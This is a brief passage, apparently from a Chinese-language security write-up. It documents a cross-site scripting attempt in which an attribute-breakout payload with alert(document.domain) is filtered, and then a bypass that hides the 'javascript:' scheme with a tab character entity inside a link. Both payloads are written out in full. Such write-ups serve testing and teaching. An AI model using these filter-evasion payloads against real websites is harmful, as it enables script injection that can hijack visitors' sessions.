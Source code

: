 尝试进行攻击，发现存在过滤 

```text
mrzhang76">alert(document.domain);<b id="
```

![&#x540E;&#x53F0;&#x5C06;&#x5371;&#x9669;&#x5B57;&#x7B26;&#x4E32;&#x5904;&#x7406;&#x4E86;](../../.gitbook/assets/image%20%2813%29.png)

使用制表符尝试突破

```text
mrzhang76"><a href=javascri&#09pt:alert(document.domain)>mrzhang76</a><b id="
```

![&#x4F7F;&#x7528;&#x6293;&#x5305;&#x5DE5;&#x5177;&#x63D0;&#x4EA4;&#x653B;&#x51FB;&#x8BED;&#x53E5;](../../.gitbook/assets/image%20%2877%29.png)
